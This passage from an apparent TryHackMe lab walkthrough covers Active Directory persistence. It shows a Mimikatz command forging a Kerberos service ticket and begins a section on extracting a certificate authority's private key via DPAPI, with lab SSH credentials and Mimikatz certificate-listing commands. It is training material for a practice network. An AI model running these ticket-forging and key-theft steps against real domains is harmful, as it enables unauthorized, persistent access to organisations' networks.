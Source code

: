 **Victim(mimikatz)**

```
kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:$DomainSID /target:$HostnameOfServerBeingTargeted /rc4:$NTLMHashOfMachineAccountOfTarget /service:cifs /ptt
```

## Persistence through Certificates

### Extracting the Private Key

The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI). This means we can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA. Mimikatz is the simplest tool to use, but if you want to experience other tools, have a look [here](https://pentestlab.blog/2021/11/15/golden-certificate/). Use SSH to authenticate to THMDC.za.tryhackme.loc using the Administrator credentials from Task 2, create a unique directory for your user, move to it, and load Mimikatz.

**Kali**

```
ssh Administrator@thmrootdc.za.tryhackme.loc
Password: tryhackmewouldnotguess1@
```

**Victim(cmd) - THMDC**

```
mkdir epic
cd epic
C:\Tools\mimikatz_trunk\Win32\mimikatz.exe
```

Let's first see if we can view the certificates stored on the DC.

**Victim(mimikatz) - THMDC**

```
crypto::certificates /systemstore:local_machine
```

<figure><img src="../../.gitbook/assets/image (19) (8) (1).png" alt=""><figcaption></figcaption></figure>
